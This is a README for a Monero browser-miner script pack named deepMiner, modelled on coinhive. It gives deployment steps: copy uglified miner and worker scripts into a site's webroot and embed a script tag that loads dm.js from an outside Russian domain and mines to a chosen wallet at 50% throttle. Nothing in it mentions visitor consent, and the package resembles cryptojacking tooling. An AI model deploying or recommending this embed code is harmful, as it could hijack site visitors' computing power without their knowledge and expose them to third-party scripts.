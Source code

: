 # Production ready XMR browser miner script pack

from:
```acsii
:::::::-.  .,:::::: .,::::::::::::::::. .        :   ::::::.    :::..,:::::: :::::::..
 ;;,   `';,;;;;'''' ;;;;'''' `;;;```.;;;;;,.    ;;;  ;;;`;;;;,  `;;;;;;;'''' ;;;;``;;;;
 `[[     [[ [[cccc   [[cccc   `]]nnn]]' [[[[, ,[[[[, [[[  [[[[[. '[[ [[cccc   [[[,/[[['
  $$,    $$ $$""""   $$""""    $$$""    $$$$$$$$"$$$ $$$  $$$ "Y$c$$ $$""""   $$$$$$c
  888_,o8P' 888oo,__ 888oo,__  888o     888 Y88" 888o888  888    Y88 888oo,__ 888b "88bo,
  MMMMP"`   """"YUMMM""""YUMMM YMMMb    MMM  M'  "MMMMMM  MMM     YM """"YUMMMMMMM   "W"

  deepMiner (idea from coinhive.js)
  Worker for own Pool or personal XMR Wallet
  By evil7@deePwn

----------------------------------------------------------------------------------------
```


## Usage

* Copy uglified scripts (preserve structure) to webroot dir your site:
```acsii
xmrMiner-scriptPack.git
.
|-- dm.js (miner)
|__ w.js  (worker - load wasm or js crypt)
    lib
    |-- cn.wasm    (fast wasm version)
    |-- cna.js     (for unsupported wasm browsers)
    |__ cna.js.mem (for unsupported wasm browsers)
    
```

* Replace 'localhost' at first line w.js to your site domain.

* Add some javascript and write like this :
```html
<script src="http://okChain.ru/dm.js"></script>
<script>
    var miner = new deepMiner.Anonymous('xmr_addr').start();
    miner.setThrottle(0.5);
</script>
```


## API

Same like this: <https://coinhive.com/documentation/miner> (JUST javascript API)


## Example

<http://www.okchain.ru/demo.html>


## Source

```acsii
xmrMiner-scriptPack.git
.
|-- README.md
|-- LICENSE
|__ web
    |-- deepMiner.js (source)
    |-- dm.js (uglified deepMiner.js)
    |-- demo.html
    |-- lib
    |   |-- cryptonight-asmjs.js (source)
    |   |-- cna.js (uglified cryptonight-asmjs.js)
    |   |-- cna.js.mem
    |   |__ cn.wasm
    |__ worker.js (source)
    |__ w.js (uglified worker.js)
```


## License

MIT <https://raw.githubusercontent.com/mixartemev/xmrMiner-scriptPack/master/LICENSE>


## Missions

Building a WebUI. Manage about miner status and banned rules pool setting or something
